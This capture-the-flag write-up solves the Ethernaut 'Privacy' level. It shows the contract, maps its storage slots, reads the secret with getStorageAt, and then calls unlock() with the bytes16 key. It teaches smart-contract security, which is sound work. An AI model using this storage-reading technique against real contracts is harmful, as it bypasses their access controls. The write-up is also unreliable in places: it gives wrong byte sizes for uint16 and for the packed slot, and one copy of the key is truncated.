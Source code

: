 # Privacy

![https://ethernaut.openzeppelin.com/imgs/BigLevel12.svg](https://ethernaut.openzeppelin.com/imgs/BigLevel12.svg)

# Objectives

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

- Understanding how storage works
- Understanding how parameter parsing works
- Understanding how casting works

Tips:

- Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.

# Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

# Analysis

This challenge wants us to unlock the contract using the `unlock()` function. Which takes a `bytes16` input as a key and requires it to be the equivalent of the last index of `bytes32[3] private data` array. And finally we have to change the `locked` boolean variables value to `false`. 

So here’s the thing, as we learned from the previous `Vault` challenge, no data in the blockchain is actually private. With right procedure, you can get the private information. So how can we get the private data stored in this contract? Let’s revisit the theory of how Solidity stores data in EVM storage.

Solidity uses slots to store data in the blockchain. One slot can store up to 32 bytes data. A `bool` and `uint256` variable takes about 32 bytes size each. A `bytes32` would take the entire slot to store data. However, an `uint8` would take only 1 bytes size and an `uint16` would take only 8 bytes, and if we declare them in a chronological way (one after one), Solidity is smart enough to pack them together and use only one slot to store them, which is a very effective way to save some gas cost. With that knowledge, the `Privacy` contract’s state variable storage looks like this - 

```solidity
// slot 0 = 32 bytes
bool public locked = true;
// slot 1 = 32 bytes
uint256 public ID = block.timestamp;
// slot 2
// solidity packes uint8, uint8 and uint16 together = 10 bytes
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(block.timestamp);
// slot 3, slot 4, slot 5 = 32 bytes x 3
bytes32[3] private data;
```

# AntiSec

As per the `unlock()` function, we need the private information from the last or third index of the `data` array which is allocated in the `slot 5`. To read that data, I will use `web3.eth.getStorageAt()` method in the Ethernaut’s developer console. Here’s how it looks - 

```jsx
await web3.eth.getStorageAt(contract.address, 5)
>> "0x3401ce5c30da475719d3f00e98391cb12b72afa0bff46c8e0fb48995a4ddb758"
```

The data stored in the `Slot 5` or the last index of `data` array is - 

`"0x3401ce5c30da475719d3f00e98391cb12b72afa0bff46c8e0fb48995a4ddb758"`

Now the `require` method needs the key to be `bytes16` and it should match the last index of `data` array after it has been typecasted to bytes16.

```solidity
require(_key == bytes16(data[2]));
```

Remember the data we got from Slot 5 is bytes32. A bytes32 data has 64 characters in it. To convert it to bytes16, we have to get the first 32 characters from that 64 characters. We can easily achieve that with `slice()` method.

I will save the hex data to a new variable called `data`. 

```jsx
data = "0x3401ce5c30da475719d3f00e98391cb12b72afa0bff46c8e0fb48995a4ddb758"
```

And now we can slice the data from the start to 34th character, as we also want the `0x` characters to be included.

```jsx
data.slice(0, 34);
"0x3401ce5c30da475719d3f00e98391cb1"
```

`"0x3401ce5c30da475719d3f00e98391c"` is our `_key` to unlock the challenge. Now let’s call the `unlock()` function with the acquired password. 

```solidity
await contract.unlock("0x3401ce5c30da475719d3f00e98391cb1")
```

Once the transaction completes successfully, let’s check if the contract is unlocked by checking the `locked` variable, and it should return false - 

```jsx
await contract.locked()
>> false
```

Congratulations on cracking the contract. It’s time to submit the instance.

# Key Takeaways

Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's `getStorageAt(...)` can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)
